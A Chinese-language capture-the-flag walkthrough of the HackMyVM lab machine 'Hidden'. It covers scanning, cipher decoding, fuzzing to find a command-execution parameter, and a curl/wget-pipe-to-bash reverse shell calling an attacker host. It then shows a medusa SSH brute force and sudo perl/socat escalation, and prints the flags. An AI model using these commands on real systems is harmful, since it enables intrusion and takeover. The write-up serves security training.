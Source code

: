 # Hidden

2024-11-14 https://hackmyvm.eu/machines/machine.php?vm=Hidden

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web 服务，首页有一张图片，html 源码中注释： format xxx.xxxxxx.xxx 像是图片中代表了某种信息，图形中有 12 个方块，前面提示中有 12 个 x，经过搜索发现是 Rosicrucian Cipher 编码，
在此网站中按照图片中的顺序选择，最后得到： SYSHIDDENHMV 根据上面的 format 应该是 sys.hidden.hmv 像是一个域名，将其添加到 /etc/hosts 文件中。

访问 http://sys.hidden.hmv/ 出现了 level 2，经过查看 mapascii 中没有隐写信息，使用 feroxbuster 进行目录递归扫描，发现了 4 个隐藏目录：

```
http://sys.hidden.hmv/users
http://sys.hidden.hmv/members
http://sys.hidden.hmv/weapon
http://sys.hidden.hmv/weapon/loot.php
```

其中前 3 个没有什么内容，loot.php 这个 php 文件访问后没有反应，ffuf 看看有没有隐藏参数,尝试 RCE 或者 LFI 探测：

```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://sys.hidden.hmv/weapon/loot.php?FUZZ=ls -fs 0
```

发现隐藏参数 hack 能够执行系统命令 http://sys.hidden.hmv/weapon/loot.php?hack=ls

所以直接进行反弹 shell：

```
nc -lvnp 8888

curl -G --data-urlencode 'hack=wget -q -O - http://192.168.5.3/5-3/8888.sh|bash' http://sys.hidden.hmv/weapon/loot.php
```

获得 shell 后，sudo -l 发现：

```
(toreto) NOPASSWD: /usr/bin/perl
```

先升级到 toreto：

```
sudo -u toreto perl -e 'exec "/bin/bash";'
```

在 /home/atenea/.hidden 目录中发现 atenea.txt 文件，其中的内容像是密码字典，将其下载到 kali 使用 medusa 爆破 ssh(速度很慢，560 个字典跑了一会):

```
medusa -u atenea -P pass -M ssh  -h 192.168.5.40 -v 4
```

最终找到密码: sys8423hmv 使用 ssh 登陆用户 atenea，先获得了 user flag：

```
atenea@hidden:~$ cat user.txt
--------------------
hmv{c4HqWSzRVKNDpTL}
```

sudo -l 发现直接可以提权：

```
(root) NOPASSWD: /usr/bin/socat
```

```
atenea@hidden:~$ sudo socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt
--------------------
hmv{2Mxtnwrht0ogHB6}
--------------------
```
